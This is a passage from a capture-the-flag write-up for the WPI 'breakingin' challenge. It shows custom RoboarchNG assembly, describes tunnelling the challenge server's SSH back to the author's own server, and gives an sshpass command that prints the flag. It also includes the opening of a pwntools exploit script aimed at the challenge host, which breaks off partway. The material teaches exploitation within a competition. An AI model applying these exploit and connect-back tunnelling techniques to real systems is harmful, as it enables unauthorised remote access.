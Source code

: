 ```x86
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
```



The only thing left to do was to do some pipe magic on my server so that when I received a connection I could then hook an SSH client up to that connection. I couldn't figure out how to do this in a bash oneliner (if you know how then please let me know), so my teammate Retr0id quickly whipped up a script to do this for me.

Now all that was left to do was to start the listener on my server, connect an SSH client to it and then run my exploit which could start the RoboarchNG proxy and forward the SSH server to my remote server, ultimately giving me an SSH connection from my server to the challenge server.

Needless to say the latency on this was pretty bad, so it was easiest just to cat the flag non-interactively.
```sh
root@pwn:~# sshpass -p "hunter2" ssh -p 31337 breakingin@localhost cat flag.txt
WPI{16_byte_instructions_kinda_suck}
root@pwn:~#
```


The whole script I used is here:

```python
from pwn import *
import sys
import os

def get_file_contents(name):
    with open(name, 'rb') as f:
        d = f.read()
    return d

def assemble(code, out_file='/tmp/out'):
    with open("/tmp/code", "w") as f:
        f.write(code)
    log.info("Assembling")
    os.system("../roboarchngasm {} {} > /dev/null".format('/tmp/code', out_file))
    d = get_file_contents(out_file)
    return d

def send_to_server(t, data):
    log.info("Sending length ({})".format(len(data)))
    t.sendlineafter('):', str(len(data)))
    log.info("Sending binary")
    t.sendafter('teread 0', data)

def assemble_and_send(data, close=True, cont=False):
    data = assemble(data)
    t = remote('breakingin.wpictf.xyz', 31338)
    dump(data, 'lol.bin')
    send_to_server(t, data)
    if cont:
        buf = ''
        try:
            while True:
                nxt = t.recv()
```